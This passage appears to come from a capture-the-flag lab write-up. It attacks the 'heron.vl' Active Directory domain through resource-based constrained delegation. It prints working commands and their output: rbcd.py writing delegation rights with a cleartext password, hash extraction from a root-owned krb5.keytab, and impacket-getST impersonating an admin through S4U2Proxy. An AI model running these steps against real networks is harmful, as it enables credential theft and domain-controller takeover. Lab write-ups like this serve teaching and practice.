 The process for this is relatively simple, as Bloodhound outlines our attach flow in their help page for this specific attack. Note that this requires the user to have control of a machine that has an SPN set, which we currently do since we have control over FRAJMP and it’s NT hash (meaning we’ll just need to PTH with the FRAJMP$ NT hash in our commands instead of a password).

So to start let’s ensure that FRAJMP$ can delegate on behalf of MUCDC$.


    ➜  julian proxychains rbcd.py -delegate-from 'FRAJMP$' -delegate-to 'MUCDC$' -action 'write' 'heron.vl/adm_prju:ayDMWV929N9wAiB4'
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.17
    Impacket v0.12.0.dev1+20240626.193148.f827c8c7 - Copyright 2023 Fortra

    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.156.21:389  ...  OK
    [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
    [*] Delegation rights modified successfully!
    [*] FRAJMP$ can now impersonate users on MUCDC$ via S4U2Proxy
    [*] Accounts allowed to act on behalf of other identity:
    [*]     FRAJMP$      (S-1-5-21-1568358163-2901064146-3316491674-27101)
## KeyTabExtract
MOST IMPORTANT PART!! WE NEED FRAJMP NT HASH SO LET USE krb5.keytab from ssh cauze we are root then for crack it let use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)

    ➜  KeyTabExtract git:(master) python3 keytabextract.py ../krb5.keytab
    [*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
    [*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
    [*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
    [+] Keytab File successfully imported.
            REALM : HERON.VL
            SERVICE PRINCIPAL : FRAJMP$/
            NTLM HASH : <redacted>
            AES-256 HASH : 7be44e62e24ba5f4a5024....600bb9c69f11da3050dd586130e7
            AES-128 HASH : dcaaea0cdc4....9bf78e6a6cbd0cd

I found that the Administrator account is disabled and was replaced with _admin, so we'll request for that user instead. You could also request to impersonate MUCDC$, as we'll be able to dump credentials with both of those accounts.

and we can run getST rn succesfully

    proxychains4 impacket-getST -spn 'cifs/mucdc.heron.vl' -impersonate '_admin' 'heron.vl/FRAJMP$' -hashes :(FRAJMP NT HASH)
    ......
    [proxychains] DLL init: proxychains-ng 4.17
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra

    [-] CCache file is not found. Skipping...
    [*] Getting TGT for user
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  HERON.VL:88  ...  OK
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  HERON.VL:88  ...  OK
    [*] Impersonating _admin
    [*] Requesting S4U2self
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  heron.vl:88  ...  OK
    [*] Requesting S4U2Proxy
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  heron.vl:88  ...  OK
    [*] Saving ticket in _admin@cifs_mucdc.heron.vl@HERON.VL.ccache

after export it u can access admin ;)
